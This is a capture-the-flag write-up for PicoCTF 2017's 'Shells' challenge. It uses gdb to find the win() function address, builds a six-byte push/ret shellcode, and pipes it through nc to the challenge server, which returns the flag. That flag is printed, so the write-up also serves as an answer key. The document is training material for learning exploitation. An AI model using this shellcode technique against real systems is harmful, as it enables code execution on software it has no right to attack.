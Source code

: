 # PicoCTF 2017- Level 2 - Binary Exploitation 2

**Title:** Shells  
**Category:** Binary Exploitation  
**Points:** 70  
**Description:**

>How much can a couple bytes do? Use [shells](shells)! [Source](shells.c). Connect on shell2017.picoctf.com:17533.  

**Hint:**

>Read about basic shellcode  
>You don't need a full shell (yet...), just enough to get the flag  

## Solution

This problem is more complex than the previous one. By openning the source file we see that we can only submit 10 bytes of data, which is not enough to contain a shell.  
But, looking at the source we can also see the function:
```C
void win(){  
    system("/bin/cat ./flag.txt");  
}  
```

So our job here is to create code to call the function `win()` that will give us the flag. First, let's start gdb:
    $ gdb  
    (gdb) file ./shells  

Now that our programs is loaded in gdb, let's find the address of the `win()` function:

    (gdb) info functions  
    All defined functions:  
      
    Non-debugging symbols:  
    0x08048378  _init  
    0x080483b0  read@plt  
    0x080483c0  printf@plt  
    0x080483d0  fflush@plt  
    0x080483e0  puts@plt  
    0x080483f0  system@plt  
    0x08048400  __gmon_start__@plt  
    0x08048410  exit@plt  
    0x08048420  mmap@plt  
    0x08048430  __libc_start_main@plt  
    0x08048440  _start  
    0x08048470  __x86.get_pc_thunk.bx  
    0x08048480  deregister_tm_clones  
    0x080484b0  register_tm_clones  
    0x080484f0  __do_global_dtors_aux  
    0x08048510  frame_dummy  
    0x08048540  win  
    0x08048560  vuln  
    0x08048610  main  
    0x08048670  __libc_csu_init  
    [...]  

We can see that the win function is at the address `0x08048540`. So our shell code will look like this:
    \x68               |  push  
    \x40\x85\x04\x08   |  win()  
    \xc3               |  ret  

Now let's create the shellcode:  
    $ python -c "print('\x68\x40\x85\x04\x08\xc3')" > shellcode  
    $ cat shellcode - | nc shell2017.picoctf.com 17533  
    My mother told me to never accept things from strangers  
    How bad could running a couple bytes be though?  
    Give me 10 bytes:  
    4350d27b024f8597f10b98f164f0fc43  

Thus the flag for this one is `4350d27b024f8597f10b98f164f0fc43`